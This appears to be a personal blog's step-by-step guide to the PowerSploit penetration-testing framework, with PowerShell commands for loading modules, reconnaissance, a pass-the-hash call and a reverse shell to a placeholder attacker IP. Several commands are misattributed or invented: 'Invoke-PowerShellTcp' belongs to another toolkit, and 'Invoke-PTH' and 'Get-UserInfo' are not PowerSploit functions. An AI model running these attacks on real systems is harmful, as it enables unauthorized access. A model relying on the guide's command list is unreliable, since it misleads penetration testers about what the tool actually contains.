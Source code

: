 ```yaml
---
date: 2024-10-24
title: PowerSploit
---
```


https://github.com/PowerShellMafia/PowerSploit/tree/dev/Recon

"PowerSploit is a collection of Microsoft PowerShell modules that can be used to aid penetration testers during all phases of an assessment. PowerSploit is comprised of the following modules and scripts:"

# A Step-by-Step Guide to Using PowerSploit for Penetration Testing

PowerSploit is a powerful collection of PowerShell scripts that can be used for various penetration testing tasks, including information gathering, exploitation, and post-exploitation. This guide will walk you through the steps to effectively use PowerSploit in your security assessments.

## What is PowerSploit?

PowerSploit is an open-source framework designed for offensive security professionals. It provides a suite of tools that can be used to automate tasks and enhance the capabilities of penetration testers. The framework is particularly useful for engagements involving Windows environments, as it leverages PowerShell, a powerful scripting language built into Windows.

## Prerequisites

Before you start using PowerSploit, ensure you have the following:

- **Windows Operating System**: PowerSploit is designed for Windows environments.
- **PowerShell**: Make sure you have PowerShell installed (it comes pre-installed on Windows).
- **Execution Policy**: You may need to set your PowerShell execution policy to allow script execution. You can do this by running PowerShell as an administrator and executing:
  ```powershell
  Set-ExecutionPolicy RemoteSigned
  ```

## Step 1: Download PowerSploit

1. **Clone the Repository**: Open PowerShell and navigate to the directory where you want to download PowerSploit. Use the following command to clone the repository from GitHub:
   ```powershell
   git clone https://github.com/PowerShellMafia/PowerSploit.git
   ```

2. **Navigate to the Directory**: Change to the PowerSploit directory:
   ```powershell
   cd PowerSploit
   ```

## Step 2: Load PowerSploit Modules

PowerSploit consists of several modules, each serving different purposes. You can load specific modules as needed. For example, to load the `Exfiltration` module, use the following command:

```powershell
Import-Module .\Exfiltration\Exfiltration.ps1
```

You can also load all modules at once by running:

```powershell
Get-ChildItem -Path .\* -Recurse -Include *.ps1 | ForEach-Object { . $_.FullName }
```

## Step 3: Explore Available Commands

Once the modules are loaded, you can explore the available commands. Use the `Get-Command` cmdlet to list all the functions available in PowerSploit:

```powershell
Get-Command -Module PowerSploit
```

## Step 4: Conduct Information Gathering

PowerSploit provides various functions for information gathering. For example, to gather information about the current user, you can use:

```powershell
Get-UserInfo
```

To enumerate local users, you can run:

```powershell
Get-LocalUser
```

## Step 5: Exploitation Techniques

PowerSploit includes several exploitation techniques. For example, if you want to perform a pass-the-hash attack, you can use the `Invoke-PTH` command:

```powershell
Invoke-PTH -Username "user" -Domain "domain" -Hash "hash"
```

Make sure to replace `"user"`, `"domain"`, and `"hash"` with the appropriate values.

## Step 6: Post-Exploitation

After successfully exploiting a target, you may want to maintain access or gather more information. PowerSploit provides several post-exploitation tools. For example, to create a reverse shell, you can use:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress "attacker_ip" -Port "attacker_port"
```

Replace `"attacker_ip"` and `"attacker_port"` with your attacker's IP address and port number.

## Step 7: Clean Up

After completing your testing, it’s important to clean up any artifacts left on the target system. You can use PowerSploit to remove any scripts or tools you deployed during your assessment.

## Conclusion

PowerSploit is a versatile tool that can significantly enhance your penetration testing efforts. By following the steps outlined in this guide, you can effectively utilize PowerSploit for various tasks, from information gathering to exploitation and post-exploitation activities. Always remember to use these tools responsibly and only in environments where you have explicit permission to conduct testing.

### Disclaimer

This guide is intended for educational purposes only. Ensure you have proper authorization before conducting any penetration testing activities. Misuse of these tools can lead to legal consequences. Always adhere to ethical hacking practices.

---
<div style="text-align: center;">
	<div class="gradient-text">👾 2024 rabb1th0les (Chris A)dams 👾</div> 
	🌴☀Thanks for supporting my page ☀🌴
	<nav>
		<ul style="list-style: none; padding: 0;">
			<div style="text-align: center;">
				<li><a href="index.html">Home</a> | <a href="Contact.html">Contact</a></li>
			</div>
		</ul>
	</nav>	
</div>